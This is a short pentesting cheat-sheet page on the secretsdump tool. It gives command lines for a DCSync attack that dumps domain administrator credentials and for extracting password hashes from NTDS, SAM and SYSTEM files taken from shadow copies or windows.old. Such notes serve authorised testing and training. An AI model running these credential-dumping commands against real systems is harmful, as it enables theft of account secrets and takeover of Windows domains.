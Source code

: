 ```yaml
---
tags:
---
```

# secretsdump

Perform DCSync attacks

## Capabilities

```powershell
# Perform a DCSync attack against the user dave, as jeffadmin
secretsdump.py $DOMAIN/$USER:'$PASSWD'@$IP -just-dc-user administrator
secretsdump.py -k -no-pass $DOMAIN/$USER@$IP

# Extract credentials from a shadow copy
secretsdump.py -ntds NTDS -system SYSTEM LOCAL

# Extract credentials from windows.old
secretsdump.py -sam SAM -system SYSTEM LOCAL
```
